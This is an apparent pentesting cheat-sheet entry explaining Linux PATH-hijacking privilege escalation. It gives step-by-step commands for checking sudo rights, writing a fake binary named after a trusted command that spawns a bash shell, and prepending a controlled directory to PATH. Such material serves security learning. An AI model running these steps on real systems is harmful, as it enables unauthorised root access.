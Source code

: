 Path hijacking exploits the way the operating system searches for executable files in directories listed in the `$PATH` environment variable. If an attacker gains control over a directory listed in `$PATH`, they can place malicious scripts or binaries that are executed instead of the intended commands.

1. **Identify Privileged Commands**

Determine commands or scripts that can be executed with elevated privileges (e.g., `sudo`).

```bash
sudo -l
```

2. **Locate the Target Command**

Verify where the target executable resides and confirm that its directory is in the `$PATH`.

```bash
whereis <command>
echo $PATH
```

3. **Create a Malicious File**

Write a malicious script or binary with the same name as the target command.

```bash
#!/bin/bash
echo "Privilege Escalation Achieved"
bash # Spawns a shell
```

Save this file as the name of the target command (e.g., `ls`). Grant execution permissions:

```bash
chmod +x <command>
```

4. **Place the File in a Controlled Directory**

Move the malicious file to a directory under your control, preferably one at the start of `$PATH`.


```bash
mkdir /tmp/mybin
mv <command> /tmp/mybin/
```

5. **Modify the `$PATH` Variable**

Prepend the controlled directory to `$PATH`:

```bash
export PATH=/tmp/mybin:$PATH
```

Now, whenever the target command is executed, the malicious version in `/tmp/mybin` will run instead of the legitimate one.
